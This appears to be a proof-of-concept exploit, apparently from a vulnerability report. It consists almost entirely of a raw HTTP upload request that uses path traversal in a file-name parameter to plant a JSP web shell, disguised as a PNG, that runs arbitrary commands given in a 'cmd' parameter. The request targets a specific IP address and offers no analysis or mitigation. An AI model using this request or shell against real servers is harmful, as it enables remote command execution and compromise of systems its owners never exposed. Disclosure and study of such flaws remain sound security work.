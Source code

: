 ```http
POST /header_icon/upload.action?fileUploadFileName=../../../views/pankasshell.jsp HTTP/1.1
Host: 47.99.57.31:8080
Content-Length: 730
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNlJfZellNwfq4TSr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.8:8081/header_icon/shell
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E5DBF602B60BD3ADBB9BFEF9A583624B
Connection: close

------WebKitFormBoundaryNlJfZellNwfq4TSr
Content-Disposition: form-data; name="FileUpload"; filename="aaa.png"
Content-Type: image/png

<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    String output = "";
    if (cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd, null, null);
            BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
            while ((s = sI.readLine()) != null) {
                output += s + "\n";
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
%>
<%=output %>
------WebKitFormBoundaryNlJfZellNwfq4TSr--
```

![](static/Eg2nbc0L5o51wixgrpncHiHTnKb.png)
